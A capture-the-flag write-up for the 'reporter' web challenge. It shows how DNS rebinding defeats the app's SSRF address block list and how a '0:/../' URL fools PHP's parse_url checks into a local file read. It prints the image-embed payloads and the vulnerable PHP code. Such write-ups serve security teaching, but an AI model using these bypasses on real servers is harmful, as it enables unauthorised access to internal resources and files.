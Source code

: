 # reporter - 498pts - 4 solves 
Author: rekter0

> Reporter is an online markdown reporting tool.
> it's free to use for everyone.
> there's a secret report we need located [here](http://reporter.3k.ctf.to/secret_report)
> 
> [source](./src)

---

## Walkthrough
The application provide markdown hosting service and it will automatically download and embed external images (or any files) to the 'report'.

There are 4 buttons on the interface: `Edit`, `Preview`, `Save`, and `Deliver`.

The first target of the challenge is to access the `secret_report`.

```html
curl http://reporter.3k.ctf.to/secret_report
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
...
```
Well, knew that.

### Exploiting TOCTOU of the domain checking

Interesting things happen in [backend.php](./src/backend.php). 
```php
if(@$_POST['deliver']){
	$thisDoc=file_get_contents($dir.'/file.html');
	$images = preg_match_all("/<img src=\"(.*?)\" /", $thisDoc, $matches);
	foreach ($matches[1] as $key => $value) {
		$thisDoc = str_replace($value , "data:image/png;base64,".base64_encode(fetch_remote_file($value)) , $thisDoc ) ;
  }
```

When user click on the `deliver` button it will get the saved document, `fetch_remote_file` and embed it to the report with `base64`. Therefore users can embed images from external image hosting sites such as imgur etc.

How about embedding the `secret_report`? It does not work as it do a long list of checks:
```php
function fetch_remote_file($url) {
    $config['disallowed_remote_hosts'] = array('localhost');
    $config['disallowed_remote_addresses'] = array("0.0.0.0/8", "10.0.0.0/8", "100.64.0.0/10", "127.0.0.0/8", "169.254.0.0/16", "172.16.0.0/12", "192.0.0.0/29", "192.0.2.0/24", "192.88.99.0/24", "192.168.0.0/16", "198.18.0.0/15", "198.51.100.0/24", "203.0.113.0/24", "224.0.0.0/4", "240.0.0.0/4",);

    // ...

    $addresses = get_ip_by_hostname($url_components['host']);
    $destination_address = $addresses[0];

    // ... checks if the destination_address is in the disallowed list ...

    $opts = array('http' => array('follow_location' => 0,));
    $context = stream_context_create($opts);
    return file_get_contents($url, false, $context);
}
function get_ip_by_hostname($hostname) {
    $addresses = @gethostbynamel($hostname);
    if (!$addresses) {
      // ... more attempts to get dns A records ...
    }
    return $addresses;
}
```

If we change the DNS record very quickly, which the DNS server return `1.1.1.1` at `get_ip_by_hostname` when it do the checking, and we return `127.0.0.1` at `file_get_contents` we can access the `localhost` and maybe we can get the `secret_report`.

Therefore I wrote a [script](./dnsrebind.js) to act as a nameserver and give different responses.

```bash
$ dig +short 4kctf.example.com @8.8.8.8
1.1.1.1
$ dig +short 4kctf.example.com @8.8.8.8
127.0.0.1
```

payload
```
![](http://4kctf.example.com/secret_report/)
```

The result is a file listing with two files:
```
3ac45ca05705d39ed27d7baa8b70ecd560b69902.php
secret2

63b4bacc828939706ea2a84822a4505efa73ee3e.php
not much here
```

The `3ac45ca05705d39ed27d7baa8b70ecd560b69902.php` is suspicious as it have 50 bytes but only 7 bytes returned from server. Maybe the flag is there.

I crafted this payload to read the file and get the flag.
```
![](0:/../secret_report/3ac45ca05705d39ed27d7baa8b70ecd560b69902.php)
```

Back to the `backend.php` `fetch_remote_file`, besides DNS checking it also `parse_url` and checks `scheme`, `port`, etc. 
```php
function fetch_remote_file($url) {
    // ...
    $url_components = @parse_url($url);
    if (!isset($url_components['scheme'])) {
        return false;
    }
    if (@($url_components['port'])) {
        return false;
    }
    if (!$url_components) {
        return false;
    }
    if ((!empty($url_components['scheme']) && !in_array($url_components['scheme'], array('http', 'https')))) {
        return false;
    }
    if (array_key_exists("user", $url_components) || array_key_exists("pass", $url_components)) {
        return false;
    }
    // ...
    return file_get_contents($url, false, $context);
```

`parse_url` will parse as follows
```
array(2) {
  ["scheme"]=>
  string(1) "0"
  ["path"]=>
  string(62) "/../secret_report/3ac45ca05705d39ed27d7baa8b70ecd560b69902.php"
}
```
Where the `scheme` will return `true` for `isset` and `true` for `empty` (`empty("0") == true`), and for `file_get_contents` it will recognize `0:` as a folder and `0:/../` as current folder. 

## Related
- [DNS rebinding](https://en.wikipedia.org/wiki/DNS_rebinding)